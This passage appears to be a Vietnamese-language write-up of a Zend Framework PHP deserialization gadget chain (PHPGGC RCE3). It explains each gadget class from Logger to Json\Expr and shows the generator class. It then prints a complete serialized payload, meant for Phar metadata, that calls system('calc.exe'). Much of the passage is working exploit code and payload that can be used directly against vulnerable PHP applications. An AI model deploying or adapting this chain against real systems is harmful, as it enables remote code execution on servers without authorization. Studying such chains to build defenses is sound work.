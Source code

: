 ```php
```
Trong đó:

- **Zend\Log\Logger** – Entry point của chuỗi POP, khi đối tượng `Logger` được unserialize, nó chứa mảng `writers`, trong đó phần tử đầu tiên là một `Zend\Log\Writer\Mail`. Attacker sẽ truyền vào 2 tham số `$function` ví dụ (`system`) và `$param` ví dụ (`calc.exe`).

- **Zend\Log\Writer\Mail** – Một writer xử lý log qua email, tại đây kẻ tấn công gán một `Zend\Tag\Cloud` vào `numEntriesPerPriority[0]`, đảm bảo rằng chuỗi tiếp tục đến logic hiển thị tag mà không bị phá vỡ – đây là điểm gắn `Cloud` để dẫn đến decorator.

- **Zend\Tag\Cloud** – Lớp hiển thị tag cloud (giao diện gắn tag động), giữ một `HtmlCloud` trong `tagDecorator` để định nghĩa cấu trúc HTML của tag; class này truyền tiếp object xuống `HtmlCloud`, vốn có thể render trực tiếp và do đó dễ bị gọi trong các template.

- **Zend\Tag\Cloud\Decorator\HtmlCloud** – Dùng để render tag dưới dạng HTML, có thuộc tính `escaper` chứa đối tượng `Zend\Escaper\Escaper`; đây là điểm quan trọng vì trong quá trình escape dữ liệu, các callable trong `Escaper` sẽ có thể bị gọi, ví dụ qua filter logic.

- **Zend\Escaper\Escaper** – Chứa logic bảo vệ chống XSS, trong đó `htmlAttrMatcher` là mảng gồm `[FilterChain, 'filter']`; khi được gọi như một callable hoặc trong context escape HTML attributes, phần tử đầu tiên của mảng sẽ bị gọi, dẫn đến `FilterChain`.

- **Zend\Filter\FilterChain** – Quản lý chuỗi các filter áp dụng lên dữ liệu, ở đây được khởi tạo với `filters[0] = [Expr, '__toString']` để đảm bảo `Expr->__toString()` sẽ được thực thi khi filter chạy; `filters[1] = $function` là hàm thực tế (vd: `system`), đảm bảo payload được gọi hợp lệ.

- **Zend\Json\Expr** – Lớp đơn giản dùng trong JSON để biểu diễn biểu thức JavaScript, chứa thuộc tính `expression = $param` – ví dụ `"calc.exe"`; khi `__toString()` bị gọi (do framework hoặc escaping logic), giá trị payload sẽ được trả về trực tiếp, gây thực thi nếu đi kèm `system(...)`.

Đoạn chain để liên kết và thực thi các gadget trên
```php
<?php

namespace GadgetChain\ZendFramework;

class RCE3 extends \PHPGGC\GadgetChain\RCE\FunctionCall
{
    public static $version = '2.0.1 <= ?';
    public static $vector = '__destruct';
    public static $author = 'eboda';

    public function generate(array $parameters)
    {
        $function = $parameters["function"];
        $parameter = $parameters["parameter"];

        return new \Zend\Log\Logger($function, $parameter);
    }
}
```

Đoạn chain khi đã được serialize và được gán vào metadata của **Phar** file.
```php
O:15:"Zend\Log\Logger":1:{s:10:" * writers";a:1:{i:0;O:20:"Zend\Log\Writer\Mail":3:{s:15:" * eventsToMail";a:1:{i:0;i:0;}s:21:" * subjectPrependText";s:0:"";s:24:" * numEntriesPerPriority";a:1:{i:0;O:14:"Zend\Tag\Cloud":2:{s:7:" * tags";a:1:{i:0;s:0:"";}s:15:" * tagDecorator";O:34:"Zend\Tag\Cloud\Decorator\HtmlCloud":3:{s:12:" * separator";s:0:"";s:10:" * escaper";O:20:"Zend\Escaper\Escaper":1:{s:18:" * htmlAttrMatcher";a:2:{i:0;O:23:"Zend\Filter\FilterChain":1:{s:10:" * filters";O:13:"SplFixedArray":2:{i:0;a:2:{i:0;O:14:"Zend\Json\Expr":1:{s:13:" * expression";s:8:"calc.exe";}i:1;s:10:"__toString";}i:1;s:6:"system";}}i:1;s:6:"filter";}}s:11:" * htmlTags";a:1:{s:1:"h";a:1:{s:1:"a";s:1:"!";}}}}}}}}
```

